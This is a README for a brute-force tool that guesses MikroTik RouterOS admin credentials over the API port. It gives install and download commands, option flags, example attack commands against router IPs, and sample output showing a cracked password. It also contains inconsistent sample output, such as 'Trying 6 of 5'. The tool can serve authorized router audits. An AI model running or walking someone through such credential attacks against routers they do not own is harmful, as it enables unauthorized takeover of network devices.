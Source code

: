 # Mikrotik API Brute-force Tool
[![Build Status](https://travis-ci.org/socialwifi/RouterOS-api.svg?branch=master)](https://travis-ci.org/socialwifi/RouterOS-api)
[![Latest Version](https://img.shields.io/pypi/v/RouterOS-api.svg)](https://pypi.python.org/pypi/RouterOS-api/)
![Supported Python versions](https://img.shields.io/badge/Python-3-blue)
![Wheel Status](https://img.shields.io/pypi/wheel/RouterOS-api.svg)
[![License](https://img.shields.io/pypi/l/RouterOS-api.svg)](https://github.com/mrhenrike/MikrotikAPI-BF/blob/master/LICENSE)

**Brute force attack tool on Mikrotik box credentials exploiting API requests.**

> **WARNING** for old users: 
> Project has changes it's structure and import signature.
> So it is important to always perform a "git pull" or download the latest release again.

#### Features:
* Easy to use;
* Standard RouterOS API syntax;
* SSL not-included (is need more tests);
* Verbose.
- - -
## Dependences
```sh
sudo apt-get install python3-pip libglib2.0-dev -y
sudo python3 -m pip install laiarturs-ros-api
```
## Download
```sh
wget -c https://github.com/mrhenrike/MikrotikAPI-BF/archive/refs/tags/v1.0.0.zip -O MikrotikAPI-BF.zip \
  && unzip MikrotikAPI-BF.zip \
  && rm -f MikrotikAPI-BF.zip
```
## Usage
```sh
    OPTIONS
         -t, --target            RouterOS target
         -p, --port              RouterOS port (default 8728)
         -u, --user              User name (default admin)
         -h, --help              This help
         -d, --dictionary        Password dictionary
         -s, --seconds           Delay seconds between retry attempts (default 1)
         -q, --quiet             Quiet mode

    EXAMPLE
         python3 mikrotikapi-bf.py -t 192.168.0.200 -u manager -p 1337 -d /tmp/passwords.txt -s 5
         python3 mikrotikapi-bf.py -t 192.168.0.1 -d /tmp/passwords.txt
```
## Outputs
#### If login successfull
```sh
[*] Starting bruteforce attack...
---------------------------------
[-] Trying with default credentials on RouterOS...
[-] Default RouterOS credentials were unsuccessful, trying with 5 passwords in list...

[-] Trying 1 of 5 Passwords - Current: 123456
[+] Login successful!!! User: admin Password: 123456
__________________________________________
Elapsed Time: 0.4 sec | Passwords Tried: 1
```
#### If login failed
```sh
[*] Starting bruteforce attack...
---------------------------------
[-] Trying with default credentials on RouterOS...
[-] Default RouterOS credentials were unsuccessful, trying with 5 passwords in list...

[-] Trying 1 of 5 Passwords - Current: teste
[-] Trying 2 of 5 Passwords - Current: 12341234
[-] Trying 1 of 5 Passwords - Current: teste
[-] Trying 2 of 5 Passwords - Current: 12341234
[-] Trying 3 of 5 Passwords - Current: asdflaskjd1234
[-] Trying 4 of 5 Passwords - Current: 123asdfas
[-] Trying 5 of 5 Passwords - Current: 12412342
[-] Trying 6 of 5 Passwords - Current: 456365

[*] ATTACK FINISHED! No suitable credentials were found. Try again with a different wordlist.
___________________________________________
Elapsed Time: 10.1 sec | Passwords Tried: 5
```
- - -

### Based from:
+ [Mikrotik API Python3](https://wiki.mikrotik.com/wiki/Manual:API_Python3)
+ [Mikrotik Tools](https://github.com/0ki/mikrotik-tools)
+ [mkbrutusproject / MKBRUTUS](http://mkbrutusproject.github.io/MKBRUTUS/)
+ [DEssMALA / RouterOS_API](https://github.com/DEssMALA/RouterOS_API)
